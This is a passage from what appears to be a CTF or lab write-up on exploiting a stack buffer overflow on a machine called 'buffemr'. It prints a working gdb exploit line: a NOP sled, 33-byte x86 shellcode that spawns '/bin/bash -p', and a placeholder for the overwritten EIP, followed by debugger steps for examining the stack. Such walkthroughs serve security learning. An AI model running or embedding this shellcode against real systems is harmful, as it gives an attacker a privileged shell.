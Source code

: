 ![](/assets/img/buffemr/31.png)

Ok so this is same old.
Now, we don't want to multiply `A` by 512, because we need 33bytes for our `shellcode` before we overwrite the `EIP`; a little of math here guys.... ok its 479bytes remaining.

Now our `BoF` sentence will change a little bit:

```zsh
r $(python -c  'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "B"*4')
```

But this is not going to be interpreted as a command, its going to be interpreted as a string, because we are not changing the `EIP` to the beginning of the `NOP`:

![](/assets/img/buffemr/32.png)

As we can see here, `EIP` still `42424242`. 
Now, by executing `x/300wx $esp`, we can see the stack:
